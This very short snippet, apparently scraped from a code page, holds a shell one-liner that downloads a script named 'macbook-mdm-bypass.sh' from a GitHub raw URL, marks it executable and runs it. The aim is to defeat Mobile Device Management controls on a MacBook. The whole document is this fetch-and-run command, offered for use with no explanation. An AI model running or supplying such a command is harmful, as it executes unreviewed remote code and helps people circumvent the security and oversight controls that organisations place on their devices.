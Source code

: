 # mdm from https://github.com/nikhillalkota/mdm-bypass/blob/test/script.sh
curl https://raw.githubusercontent.com/Hajcuska/mdm/main/script.sh -o macbook-mdm-bypass.sh; \
chmod +x macbook-mdm-bypass.sh; \
sh macbook-mdm-bypass.sh;
